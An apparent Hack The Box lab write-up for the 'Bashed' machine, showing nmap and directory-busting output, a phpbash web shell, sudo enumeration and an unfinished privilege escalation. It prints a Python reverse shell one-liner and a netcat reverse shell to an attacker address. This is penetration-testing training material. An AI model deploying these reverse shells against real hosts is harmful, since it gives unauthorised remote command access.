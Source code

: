 ![](20230211124736.png)  

it mentions phpbash developed at arrexel
https://github.com/Arrexel/phpbash

```
└─$ nmap -sC -sV -Pn 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-11 12:43 EST
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.03% done; ETC: 12:50 (0:04:51 remaining)
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
80/tcp   open     http           Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
3370/tcp filtered satvid-datalnk

```

we can http://10.10.10.68/uploads/

in the images we see that ther re is this directory


feroxbuster --url http://10.10.10.68/uploads -x php

```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://10.10.10.68/uploads -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.68/uploads
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        9l       28w      312c http://10.10.10.68/uploads => http://10.10.10.68/uploads/
403      GET       11l       32w      290c http://10.10.10.68/.php
[####################] - 8m     60000/60000   0s      found:2       errors:89     
[####################] - 8m     60000/60000   113/s   http://10.10.10.68/uploads/ 

```

![](20230211130654.png)  

no permission to upload it says


after some more busting found at

![](20230211133302.png)  

now we need to find vuln in the code

![](20230211140234.png)  

problem with uploading shell

but user flag gotten easily

![](20230214120019.png)  

python shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

`nc -lvp 1235`


/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL

python doesn'tseem to run

in my case however nc  return connect momentarily

/bin/sh | nc 10.10.14.19 1235

trying all weird combinations but unableto get the script accross

so bashed shall remain unconquered.

looking for more ad machines. sure.
can i really work hard. oscp and osep.
Dec 6




